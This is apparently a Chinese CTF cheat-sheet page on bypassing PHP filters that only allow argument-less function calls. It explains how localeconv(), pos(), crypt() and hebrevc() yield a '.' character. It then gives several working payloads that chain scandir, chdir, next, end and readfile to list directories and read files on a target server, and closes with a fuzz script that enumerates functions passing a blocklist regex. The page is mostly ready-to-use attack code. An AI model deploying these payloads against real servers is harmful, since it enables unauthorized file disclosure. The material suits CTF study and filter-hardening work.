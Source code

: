 ### localeconv()

`localeconv()` 函数返回一包含本地数字及货币格式信息的数组。其返回的数组元素中包含 \[decimal_point\] - 小数点字符。

```php
php > var_dump(localeconv());
array(18) {
  ["decimal_point"]=> string(1) "."
  ["thousands_sep"]=> ...}
```

`pos()` 输出数组中的当前元素的值：

```php
php > var_dump(pos(localeconv()));
string(1) "."
```

Payload:

```php
echo(readfile(end(scandir(chr(pos(localtime(time(chdir(next(scandir(pos(localeconv()))))))))))));
```


### hash 特性

Payload:

```php
readfile(end(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion()))))))))))))));
```

原理：`hebrevc(crypt(arg))` 可以随机生成一个 hash 值 第一个字符随机是 `$`(大概率) 或者 `.`(小概率) 然后通过ord、chr只取第一个字符

```php
php > var_dump(hebrevc(crypt(phpversion())));
string(34) ".$1$zEHuomrO$cXgJopOzWROGwYb.gyDRl"
php > var_dump(chr(ord(".$1$zEHuomrO$cXgJopOzWROGwYb.gyDRl")));
string(1) "."
```

Payload 2:

`crypt(serialize(array()))` 原理同上，用于生成 `.`。

```php
if(chdir(next(scandir(chr(ord(strrev(crypt(serialize(array())))))))))readfile(end(scandir(chr(ord(strrev(crypt(serialize(array()))))))));
```

fuzz fliter：

```php
<?php
error_reporting(0);
// var_dump(gettype(get_defined_functions())); -> array
// var_dump(count(get_defined_functions()["internal"])); -> 1276
// var_dump(preg_match('/et|na|nt|strlen|info|path|rand|dec|bin|hex|oct|pi|exp|log/i', '1')); -> int(0)

$func = get_defined_functions()["internal"];
$_func = array();
$_i = 0;

foreach ($func as $key => $value) {
    if (!preg_match('/et|na|nt|strlen|info|path|rand|dec|bin|hex|oct|pi|exp|log/i', $value)) {
        $_func[$_i] = $value;
        $_i++;
    }
}
```
